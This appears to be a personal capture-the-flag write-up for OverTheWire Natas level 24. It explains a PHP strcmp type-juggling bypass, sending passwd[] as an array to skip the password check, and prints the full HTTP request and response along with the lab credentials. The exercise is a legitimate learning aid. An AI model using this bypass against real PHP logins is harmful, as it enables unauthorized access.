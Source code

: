 
Username: natas24 
Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd

![[Images/Pasted image 20240710163402.png]]

```php
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas24", "pass": "<censored>" };</script></head>
<body>
<h1>natas24</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

strcmp returns 0 if the strings are equal, this is what php interprets as false - explaining the !strcmp
meaning we need the correct password

Looking at the php docs https://www.php.net/manual/en/function.strcmp.php
There is an example where strcmp gives the result NULL when being sent an array or function..
```php
strcmp("5", 5) => 0
strcmp("15", 0xf) => 0
strcmp(61529519452809720693702583126814, 61529519452809720000000000000000) => 0
strcmp(NULL, false) => 0
strcmp(NULL, "") => 0
strcmp(NULL, 0) => -1
strcmp(false, -1) => -2
strcmp("15", NULL) => 2
strcmp(NULL, "foo") => -3
strcmp("foo", NULL) => 3
strcmp("foo", false) => 3
strcmp("foo", 0) => 1
strcmp("foo", 5) => 1
strcmp("foo", array()) => NULL + PHP Warning
strcmp("foo", new stdClass) => NULL + PHP Warning
strcmp(function(){}, "") => NULL + PHP Warning
```

We tried and tried to make a variable an array by giving it different values - Finally I googled php strcmp vuln and at once we found the answer. We're not supposed to change it to an array by what we set the value to but how we set it. Using `passwd[]=whatever` we get an array. As we already found out this will result is strcmp returning NULL, and this is interpreted as false by the if, meaning we got the password.

```http
GET /?passwd[]=whatever HTTP/1.1
Host: natas24.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNDpNZXVxbWZKOERES3VUcjVwY3Z6RktTd2x4ZWRaWUVXZA==
Connection: keep-alive
Referer: http://natas24.natas.labs.overthewire.org/?passwd=array%28%29
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


```

```http
HTTP/1.1 200 OK
Date: Wed, 10 Jul 2024 16:19:01 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1300
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas24", "pass": "MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd" };</script></head>
<body>
<h1>natas24</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br>
<pre>
Username: natas25 
Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
</pre>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

Username: natas25 
Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws



The test 24.php file example
```php
<?php

echo $_REQUEST["passwd"]."<br>";
echo $_REQUEST["truetest"]."<br>";
echo ["apples", "bananas"]."<br>";


if(strcmp($_REQUEST["truetest"],"foo")){
    echo "true<br>";
}
else{
    echo "false<br>";
}

echo strcmp(false, 0)."<br>";

echo strcmp($_REQUEST["passwd"], "123");

if(!strcmp($_REQUEST["passwd"],"123")){
    echo "<br>The credentials for the next level are:<br>";
    echo "<pre>Username: natas25 Password: <censored></pre>";
}
else{
    echo "<br>Wrong!<br>";
}

?>  
```

Fail
![[Images/Pasted image 20240710184937.png]]

Success
![[Images/Pasted image 20240710185011.png]]